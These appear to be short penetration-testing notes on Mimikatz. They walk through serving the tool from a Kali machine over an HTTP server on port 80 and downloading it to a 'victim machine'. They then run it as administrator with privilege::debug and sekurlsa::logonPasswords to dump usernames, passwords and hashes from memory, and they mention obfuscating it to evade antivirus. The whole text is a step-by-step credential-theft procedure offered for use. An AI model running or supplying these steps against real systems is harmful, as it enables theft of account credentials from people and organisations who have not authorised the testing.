 # Mimikatz

This tool is used to view and steal credentials, generate Kerberos tickets and leverage attacks.

Dump credentials stored in memory

Download gentilkiwi mimikatz on github

Mimikatz is going to picked up by universally every single AV or protection service. This example is if mimikatz is obfuscated in some way or another which is used often.

Step 1: Run the below command on where the 4 mimikatz files are saved at on the Kali box. This command below will create an http server over port 80 that will allow you to access from a browser on the victim machine to download the mimikatz setup.

```jsx
python3 -m http.server 80
```

Step 2: Run command prompt as admin

Cd into downloads folder and run mimikatz.exe 

Step 3:  Run debug privilege and sekurlsa

```jsx
privilege::debug

sekurlsa::logonPasswords
```

This above command will reveal passwords and usernames as well as hashes of accounts